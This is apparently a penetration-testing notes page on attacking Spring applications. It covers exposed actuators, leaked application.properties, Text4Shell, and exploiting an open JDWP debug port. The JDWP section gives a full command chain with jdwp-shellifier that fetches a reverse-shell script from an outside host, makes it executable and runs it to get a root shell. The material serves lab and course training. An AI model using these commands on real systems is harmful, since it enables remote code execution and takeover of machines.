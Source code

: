 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Spring

## 101

<table><thead><tr><th width="146" align="right">Technology</th><th>Description</th></tr></thead><tbody><tr><td align="right"><a href="https://spring.io/projects/spring-framework">Spring</a></td><td>A framework for building Java applications.</td></tr><tr><td align="right"><a href="https://spring.io/projects/spring-boot">Spring Boot</a></td><td>A Spring extension that simplifies the configuration of Spring apps by providing defaults and conventions to minimize the boilerplate code required.</td></tr></tbody></table>

## Recon

The default error page (`/error`) for Spring applications:

<figure><img src="../../.gitbook/assets/web_framework_spring_whitelabel.png" alt=""><figcaption></figcaption></figure>

## Attacks

### Actuators

Spring Boot's [actuators](https://www.baeldung.com/spring-boot-actuators#understanding-actuator) is a set of built-in monitoring and debugging features and its endpoints should not be public facing. For instance, [`/actuator/sessions`](https://www.baeldung.com/spring-boot-actuators#3-predefined-endpoints) lists active HTTP Spring session&#x73;_._ For an example of leveraging an actuator for **session hijacking** see [Cozyhosting](../../boxes/easy/cozyhosting.md#leveraging-actuator).

### Config Files

[Spring applications](https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files) will load properties from the [`application.properties`](https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files) file which is typically under the webroot (`/`) or the `config` subdirectory. This file can contain sensitive information, such as credentials and database information. We can use Burp Intruder to enumerate this file.

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course, more specifically, the Asio lab._

<figure><img src="../../.gitbook/assets/offsec_asio_applicationProperties_1.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/offsec_asio_applicationProperties_2.png" alt=""><figcaption></figcaption></figure>

### Apache Commons

**Apache Commons Text** is a part of the larger Apache Commons project, which provides reusable Java components. Specifically, Commons Text offers utility classes for advanced string manipulation. While not part of the Spring Framework itself, it is commonly included in Spring-based applications due to its useful text processing features.

Apache Commons Text from `1.5` up to `1.9` are vulnerable to **Text4Shell** ([CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)). There is a [PoC](https://github.com/chaudharyarjun/text4shell-exploit) available written for `POST` requests and using the `data` parameter. A [modified version of the PoC](https://github.com/CSpanias/text4shell-exploit) is also available allowing for more flexibility.

### JDWP

**Java Debug Wire Protocol (JDWP)** is a protocol used by the Java Platform Debugger Architecture (JPDA) to enable communication between a debugger and a Java application. It is typically used during development to inspect and control Java programs. While JDWP is not specific to Spring, it can be exposed in Spring-based applications—especially in misconfigured environments or containerized deployments. If left open in production (commonly on port `5005`), JDWP can be exploited by attackers to execute arbitrary code, inspect memory, or gain full control over the JVM.

The identification process of a JDWP process goes like this:

1. We’re in a **Java web app**:

```bash
# TCP port scan reveals the use of the Spring framework
8080/tcp open  http    Apache Tomcat (language: en)
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Spring Java Framework
```

2. We find a **local open port** with no response from manual probbing:

```bash
# Unknown local port
$ netstat -aln
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN
```

3. There’s a **Java process running** as `root`:

```bash
$ lsof -i :8000
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
java      851 root   15u  IPv4 151467      0t0  TCP localhost:8000 (LISTEN)
```

4. We suspect this might be **debug-related**:

{% code overflow="wrap" %}
```bash
$ ps aux | grep 8000
root         851  0.0  3.9 2537196 79896 ?       Ssl  06:06   0:06 java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y /opt/stats/App.java
```
{% endcode %}

The above pattern should trigger the “_Maybe it’s JDWP_” instinct.&#x20;

There is a [PoC](https://github.com/IOActive/jdwp-shellifier) available but we might have to dig a bit more in order to successfully use it. This PoC waits for an event to be triggered in order to achieve RCE; we will have to enumerate the port from which we can do that.

```bash
$ ss -tunlp

Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
...
# This is our port forward
tcp   LISTEN 0      1  127.0.0.1:8000      0.0.0.0:*    users:(("java",pid=851,fd=15))
# This is unknown, thus, potentially the JDWP port!
tcp   LISTEN 0      50         *:5000            *:*    users:(("java",pid=851,fd=10))
# This is the web application
tcp   LISTEN 0      100        *:8080            *:*    users:(("java",pid=834,fd=11))
```

We can then check what the Java process is doing:

{% code overflow="wrap" %}
```bash
$ ps aux | grep java
dev          834  0.7 27.4 2613260 555380 ?      Ssl  06:06   3:53 java -jar /opt/dev/api.jar
root         851  0.0  3.8 2537196 77344 ?       Ssl  06:06   0:07 java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y /opt/stats/App.java
```
{% endcode %}

Enumerating the outputted paths confirms that the port `5000` is what we are searching for:

```bash
$ ls -la /opt/dev
...
-rw-r--r-- 1 root root 17383754 Nov  7  2022 api.jar

$ cat App.java | grep 5000
            ServerSocket echod = new ServerSocket(5000);
```

Now we can use the PoC and gain a `root` shell on the target:

{% code overflow="wrap" %}
```bash
# Upload a reverse shell script via the JDWP vulnerability
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'wget 192.168.45.154:8888/revshell.sh -O /tmp/revshell.sh'
...
[+] Waiting for an event on 'java.net.ServerSocket.accept'
```
{% endcode %}

```bash
$ curl http://berlin:5000
curl: (1) Received HTTP/0.9 when not allowed
```

{% code overflow="wrap" %}
```bash
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'wget 192.168.45.154:8888/revshell.sh -O /tmp/revshell.sh'
...
[!] Command successfully executed
```
{% endcode %}

Repeat the same process for assigning the right permissions to the file and then execute it:

```bash
# Assign executable permissions to the uploaded file
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'chmod 700 /tmp/revshell.sh'
# Execute the file
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'bash /tmp/revshell.sh'
```
